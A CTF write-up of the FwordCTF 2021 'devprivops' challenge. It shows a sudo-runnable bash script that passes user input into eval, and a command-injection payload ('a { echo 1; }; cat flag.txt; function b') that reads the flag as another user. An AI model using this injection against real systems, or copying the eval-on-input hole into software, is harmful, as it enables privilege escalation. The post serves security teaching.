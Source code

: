 ```yaml
---
layout: post
title: "FwordCTF 2021 - devprivops [Bash]"
categories: ctf
tags: bash privesc fqlenos
date: 2021-08-29 17:11:00 +0200
author: fqlenos
---
```


Devprivops is a bash challenge from FwordCTF 2021. We are given a ssh access to a machine with just two files in the home directory. The files are called: `devops.sh` and `flag.txt`, respectively.

Once logged in the machine we run `whoami` and verify that we are the `user1` user. We can see that there are three user accounts in the system:

```
user1@b7d96900911c:/home/user1$ cat /etc/passwd | grep "/bin/bash"
root:x:0:0:root:/root:/bin/bash
user1:x:1000:1000::/home/user1/:/bin/bash
user-privileged:x:1001:1001::/home/user-privileged/:/bin/bash
```

In order to escalate our privileges, we must use some privileged command. We run `sudo -l` in order to see which privileged commands we are allowed to use:

```
user1@9c82d26746f6:/home/user1$ sudo -l 
Matching Defaults entries for user1 on 9c82d26746f6:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user1 may run the following commands on 9c82d26746f6:
    (user-privileged) NOPASSWD: /home/user1/devops.sh
```

It can be noticed that our user is allowed to run `/home/user1/devops.sh` as `user-privileged` without password.

We inspect the `devops.sh` script in order to identify a vulnerability that will allow us to escalate privileges:

```bash
#!/bin/bash
PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:"
exec 2>/dev/null
name="deploy"
while [[ "$1" =~ ^- && ! "$1" == "--" ]]; do case $1 in
  -V | --version )
    echo "Beta version"
    exit
    ;;
  -d | --deploy ) 
     deploy=1
     ;;
  -p | --permission )
     permission=1
     ;;
esac; shift; done
if [[ "$1" == '--' ]]; then shift; fi

echo -ne "Welcome To Devops Swiss Knife \o/\n\nWe deploy everything for you:\n"

if [[ deploy -eq 1 ]];then
        echo -ne "Please enter your true name if you are a shinobi\n"  
        read -r name
        eval "function $name { terraform init &>/dev/null && terraform apply &>/dev/null ; echo \"It should be deployed now\"; }"
        export -f $name
fi

isAdmin=0
# Ofc only admins can deploy stuffs o//
if [[ $isAdmin -eq 1 ]];then
        $name
fi

# Check your current permissions admin-san
if [[ $permission -eq 1 ]];then
        echo "You are: " 
        id
fi
```

When running `/home/user1/devops.sh -p` the user remains the same:

```
user1@8deb9deda02f:/home/user1$ /home/user1/devops.sh -p
Welcome To Devops Swiss Knife \o/

We deploy everything for you:
You are: 
uid=1000(user1) gid=1000(user1) groups=1000(user1)
```

Keeping in mind that the previous script is runnable as `user-privileged`:

```
user1@8deb9deda02f:/home/user1$ sudo -u user-privileged /home/user1/devops.sh -p
Welcome To Devops Swiss Knife \o/

We deploy everything for you:
You are: 
uid=1001(user-privileged) gid=1001(user-privileged) groups=1001(user-privileged)
```

This means that we can impersonate the `user-privileged` user from `user1` with `devops.sh`.

We can exploit the script injecting code by running: `sudo -u user-privileged /home/user1/devops.sh -d`. The deploy argument (`-d`) of the script reads our input into the `$name` variable, and places it in an eval statement. Therefore, we can add the following payload: `a { echo 1; }; cat flag.txt; function b`, as it is shown below:

```
user1@09b79a8590f9:/home/user1$ sudo -u user-privileged /home/user1/devops.sh -d
Welcome To Devops Swiss Knife \o/

We deploy everything for you:
Please enter your true name if you are a shinobi
a { echo 1; }; cat flag.txt; function b
FwordCTF{W00w_KuR0ko_T0ld_M3_th4t_Th1s_1s_M1sdirecti0n_BasK3t_FTW}
```
